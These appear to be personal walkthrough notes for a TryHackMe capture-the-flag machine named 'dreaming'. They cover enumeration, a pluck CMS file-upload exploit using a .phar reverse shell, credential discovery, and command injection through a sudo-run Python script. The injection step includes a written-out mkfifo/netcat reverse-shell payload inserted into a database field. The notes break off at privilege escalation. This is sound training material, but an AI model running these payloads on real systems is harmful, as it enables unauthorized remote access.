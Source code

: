 nmap > 

(- Enumeration)

gobuster: crawl the directory > found the version of the application(pluck 4.7.13) > bruteforce admin login page

> search for CMS version vulnerabilities(pluck 4.7.13: File Upload Remote Code Execution) >  use ExploitDB > goto http://IP/app find the uploading page 

(- Exploitation)
> hover to navbar tab choose 'manage files' > create php reverse shell + change extension(php->phar) > upload the .phar file 

> start a listener(nc -lvnp 4444) + open the webpage .phar file 

(- Lateral Movement)

find users
> cat /etc/passwd |grep 'bash'
> cd /opt
checking files
> ls -la
find a password
> head test.py

connect SSH
> ssh lucien@$VMIP
> sudo -l

we see that we can run /usr/bin/python3 /home/death/getDreams.py as the user death.

*We only can read files inside /OPT directory

cd /opt$ cat getDreams.py

`command = f"echo {dreamer} + {dream}"`

this is get command execution using command substitution

When a command is enclosed within $(), Bash executes the command and substitutes its standard output in place.

> echo "$(id)"

> cat $HOME/.bash_history

> mysql -u lucien -p[REDACTED]

```
mysql> INSERT INTO dreams (dreamer, dream) VALUES ('Nightmare', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.12 4444 >/tmp/f)');
```

> lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py

>  (attacker machine) nc -lvnp 4444

<stuck here> :https://cybersecfun.pythonanywhere.com/tryhackme/dreaming.html
- Privilege Escalation (The Intended Way)
  
death@dreaming:~$ find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/death/*" -writable 2>/dev/null


